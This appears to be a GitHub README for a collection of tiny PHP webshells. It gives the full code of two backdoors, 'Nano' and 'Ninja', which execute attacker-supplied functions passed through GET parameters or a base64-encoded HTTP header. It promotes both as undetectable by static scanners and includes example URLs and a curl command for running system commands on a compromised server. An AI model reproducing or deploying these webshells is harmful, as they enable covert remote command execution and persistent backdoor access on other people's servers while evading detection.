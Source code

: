 # nano
Nano is a family of PHP webshell code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

### Nano
```php
<?$x=$_GET;($x[p]=='_'?$x[f]($x[c]):y);
```
#### Features
- 39 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?preg_match('/(.*)\((.*)\)/',base64_decode(substr(getallheaders()['x'],1)),$c);@$c[1]($c[2]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so you will need to base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/UltimateHackers/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
This 39 characters of code is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
